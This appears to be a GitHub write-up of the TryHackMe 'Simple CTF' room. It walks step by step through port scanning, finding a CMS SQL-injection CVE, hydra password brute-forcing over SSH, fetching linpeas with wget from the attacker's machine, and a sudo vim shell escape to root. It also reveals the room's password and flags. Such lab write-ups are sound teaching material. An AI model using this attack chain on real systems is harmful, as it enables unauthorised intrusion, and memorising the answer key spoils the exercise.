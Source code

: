 ![Simple CTF Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Cover.png" alt="Simple CTF Cover">
</p>

# [Simple CTF](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/easyctf)

This guide contains the answer and steps necessary to get to them for the [Simple CTF](https://tryhackme.com/room/easyctf) room.

## Simple CTF 

In this room we

1. How many services are running under port 1000?

   To find these running services we use nmap.

   ```cmd
   sudo nmap 10.10.163.70 -sV -p-1000 -sC
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>2</details>

2. What is running on the higher port?

   I got trown of a little by the wording of the questions as the answer wasn't in the previous answer. For this answer I had to perform another scan where it scanned more ports.
   
   ```cmd
   sudo nmap 10.10.163.70 -sV -sC 
   ```
   
   ![Nmap Scan Extra](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Nmap_Scan_Extra.png)

   ><details><summary>Click for answer</summary>ssh</details>

3. What's the CVE you're using against the application?

   This took me a while to find, as I ended up at dead ends when looking for CVE's for the various services that were running on the machine. None of these yielded any results:
   
   - Openssh
   - Apache2
   - Looking through `searchsploit` for any exploits

   ```cmd
   searchsploit openss
   ```

   ![Searchsploit](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Searchsploit.png)
   
   The webserver didn't display anything interesting in our browser.
   
   ![Web Page](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Web_Page.png)
   
   So lets try finding any hidden pages with `dirsearch`.
   
   ```cmd
   dirsearch -u 10.10.163.70 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r
   ```
   
   ![Hidden Web Page](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Hidden_Web_Page.png)
   
   Looks like there is one! Navigating there, we see it is an installation of CMS.
   
   ![CMS Page](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_CMS_Page.png)
   
   We can find the version of the program at the bottom of the pages.
   
   ![CMS Version](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_CMS_Version.png)
   
   Now we can look for any [exploits](https://www.exploit-db.com/exploits/46635) related to this vesrion of CMS.
   
   ![CMS Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_CMS_Exploit.png)
   
   ><details><summary>Click for answer</summary>CVE-2019-9053</details>

4. To what kind of vulnerability is the application vulnerable?

   Looking up this exploit on CVE-details we can find more information about this exploit.
   
   ![CMS CVE](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_CMS_CVE.png)

   ><details><summary>Click for answer</summary>sqli</details>

5. What's the password?

   Again, this threw me off again, since I was now looking for credentials for the CMS service. But I didn't find anything. After that I started to look for credentials for the ssh service (since ftp had anonymous login enabled).
   
   I could use Hydra for this, but then I would want to have at least a username to work with. However, looking at one of the articles on the webpage, we see a name from the author. Could be wort it to try this name out.
   
   ![CMS Article](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_CMS_Article.png)
   
   Using the following command with `hydra` may give us the password of the account.
   
   ```cmd
   hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.70:2222 -t 4
   ```
   
   ![Hydra Password Crack](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Hydra_Password_SSH.png)

   ><details><summary>Click for answer</summary>secret</details>

6. Where can you login with the details obtained?

   As mentioned before, this can be used to log in to the ssh service.

   ><details><summary>Click for answer</summary>ssh</details>

7. What's the user flag?

   Logging into the machine with ssh:
   
   ```cmd
   ssh mitch@10.10.163.70 -p 2222
   ```
   
   we find the user flag.
   
   ![User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_User_Flag.png)

   ><details><summary>Click for answer</summary>G00d j0b, keep up!</details>

8. Is there any other user in the home directory? What's its name?

   To find other users we can use various commands.
   
   ```cmd
   ls -lh /home
   ```
   
   This simply looks through the `home` folder for any directories.
   
   ![SSH Users](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_SSH_Users.png)

   ><details><summary>Click for answer</summary>sunbath</details>

9. What can you leverage to spawn a privileged shell?

   This step also took me a little while as I had to look through various methods of elevating our [priveleges](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation
). The first thing I did was stabalize our shell with:
   
   ```cmd
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
   
   Using `find / -perm -4000 2>/dev/null` didn't result in any executables that we could exploit.
   
   Next I tried using LinPeas. Started a server on our machine and transferring the script over. But that didn't work either.
   
   ```cmd
   python3 -m http.server 8080
   wget http://10.18.78.136:8080/linpeas.sh
   
   chmod x linpeas.sh
   ./linpeas.sh
   ```
   
   I looked at the kernel version with `uname -a` to find if it was vulnerable. Didn't give anything either.
   
   Finally, I looked at the executables we would be able to run with sudo.
   
   ```cmd
   sudo -l
   ```
   
   ![Sudo Permissions](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Sudo_Permissions.png)
   
   Looks like there might be a program that we can exploit with this.

   ><details><summary>Click for answer</summary>vim</details>

10. What's the root flag?

   Lets take a look at [GTFObins](https://gtfobins.github.io/gtfobins/vim/) to find out what we can do with vim. We know our user can run `vim` as sudo, so that is where we should look.
   
   ![GTFO Vim](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_GTFO_VIM.png)
   
   Now we input the command into our shell to get an elevated shell.
   
   ```cmd
   sudo vim -c ':!/bin/sh'
   ```
   
   ![Root Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Root_Shell.png)
   
   Looks like this worked. After stabalizing our shell again, we can navigate to the root folder and find our flag.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/easyctf/Simple_CTF_Root_Flag.png)

   ><details><summary>Click for answer</summary>W3ll d0n3. You made it!</details>
